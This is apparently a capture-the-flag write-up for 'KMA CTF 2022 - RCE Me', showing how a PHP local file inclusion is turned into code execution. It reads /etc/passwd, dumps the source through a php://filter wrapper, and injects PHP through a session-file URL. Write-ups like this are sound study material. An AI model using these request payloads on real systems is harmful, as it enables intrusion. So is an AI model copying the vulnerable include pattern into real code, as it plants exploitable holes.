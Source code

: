 # KMA CTF 2022 - RCE Me

**hint**: I am using php-fpm alpine docker

**Vulnerable to LFI**: `http://rce-me.ctf.actvn.edu.vn/?l=/etc/passwd`
```
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin ....
User,,,:/home/www-data:/sbin/nologin utmp:x:100:406:utmp:/home/utmp:/bin/false
```

Let's try to read source code using `php wrapper`: `http://rce-me.ctf.actvn.edu.vn/?l=php://filter/convert.base64-encode/resource=index.php`
```php
<?php
session_start();
$_SESSION['name'] = @$_GET["name"];
$l = @$_GET['l'];
if ($l) include $l;
?>
<h1>Try rce me!</h1>
<h2>
  <a href="?l=/etc/passwd">?l=/etc/passwd</a>
</h2>
```

The idea very is very clear, if we can read php session file, we can using `name parameter` to inject PHP code to session file to get RCE:

**PHP session file location**:
```
First check the value of `session.save_path` using `ini_get('session.save_path')` or `phpinfo()`. If that is non-empty, then it will show where the session files are saved. In many scenarios `it is empty by default`, in which case read on:

  On `Ubuntu or Debian` machines, if `session.save_path is not set`, then session files are saved in `/var/lib/php5`.
  On `RHEL and CentOS` systems, if `session.save_path is not set`, session files will be saved in `/var/lib/php/session`
  I think that if you `compile PHP from source`, then when `session.save_path is not set`, session files will be saved in `/tmp`.
```

And yes, your php session file location is: 
```
/tmp/sess_[YOUR-PHP-SESSION-ID]
```

**Try**: `http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1`
```html
name|N;
```

`http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1&name=<?php system('id'); ?>`
```html
name|s:22:"uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data) ";
```

Do some simple rce, we found file contain the flag: `flag_KMACTF_hihi_do_anh_bat_duoc_em.txt`

**flag**: `KMACTF{Do_anh_session_duoc_em_hihi}` 
